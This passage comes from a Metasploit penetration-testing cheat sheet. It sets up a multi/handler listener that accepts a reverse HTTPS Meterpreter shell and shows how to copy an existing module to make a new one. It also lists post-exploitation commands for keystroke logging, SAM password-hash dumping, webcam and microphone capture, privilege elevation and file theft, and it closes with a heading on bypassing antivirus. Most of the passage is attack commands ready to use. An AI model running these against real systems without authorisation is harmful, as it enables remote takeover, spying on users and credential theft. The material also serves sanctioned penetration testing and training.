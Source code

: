        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    -   Invoke a command shell from Meterpreter Shell

        `shell`

    -   Exit the meterpreter shell

        `exit`

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter

        ```
        payload
        use exploit/multi/handler
        set PAYLOAD windows/meterpreter/reverse_https
        set LHOST $ip
        set LPORT 443
        exploit
        [*] Started HTTPS reverse handler on https://$ip:443/
        ```

-   Building Your Own MSF Module

    -
        ```bash
        mkdir -p ~/.msf4/modules/exploits/linux/misc
        cd ~/.msf4/modules/exploits/linux/misc
        cp /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb ./crossfire.rb
        nano crossfire.rb
        ```


-   Post Exploitation with Metasploit - (available options depend on OS and Meterpreter Cababilities)

    -   `download` Download a file or directory
        `upload` Upload a file or directory
        `portfwd` Forward a local port to a remote service
        `route` View and modify the routing table
        `keyscan_start` Start capturing keystrokes
        `keyscan_stop` Stop capturing keystrokes
        `screenshot` Grab a screenshot of the interactive desktop
        `record_mic` Record audio from the default microphone for X seconds
        `webcam_snap` Take a snapshot from the specified webcam
        `getsystem` Attempt to elevate your privilege to that of local system.
        `hashdump` Dumps the contents of the SAM database

-   Meterpreter Post Exploitation Features

    -   Create a Meterpreter background session

        `background`

<span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software
===========================================================================================================================
